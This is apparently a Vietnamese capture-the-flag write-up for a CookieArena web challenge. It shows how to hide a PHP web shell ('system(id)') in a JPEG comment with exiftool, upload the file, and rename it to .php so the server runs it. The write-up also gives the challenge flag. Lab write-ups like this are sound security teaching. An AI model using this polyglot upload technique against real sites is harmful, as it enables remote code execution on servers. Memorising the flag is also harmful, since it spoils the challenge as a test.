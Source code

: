 # Flawed validation of file content
Link: https://battle.cookiearena.org/challenges/web/flawed-validation-of-file-content

![alt text](image.png)

Bài này liên quan tới file upload sử dụng fake các byte của file ảnh như trong mô tả của challenge

Kỹ thuật này có tên `Remote code execution via polyglot web shell upload`

Chúng ta sẽ sử dụng công cụ exiftool để chèn payload vào trong ảnh

```
exiftool -Comment="<?php echo 'START:'; system(id); ?>" dowload.jpg -O shell.jpg
```

Sau đó chúng ta chỉ cần upload file

![alt text](image-1.png)


Tuy nhiên nếu chỉ upload thì vẫn chưa xong

![alt text](image-2.png)

Phân tích thì chúng ta thấy nếu để thực thi được shell thì phải là file .php, vì vậy chúng ta chỉ cần thay đổi đuôi file đi là được.

![alt text](image-3.png)


![alt text](image-4.png)

Chú ý: Chúng ta hoàn toàn có thể chỉnh sửa payload của file ảnh khi chỉnh sửa request trong Repeater 

Flag: CHH{POLY6L0T_jpEG_58261a5e8445c06b9f0cffecea802495}


Nguồn tham khảo:
https://viblo.asia/p/file-upload-vulnerabilities-cac-lo-hong-upload-tep-tin-phan-3-WR5JRDndVGv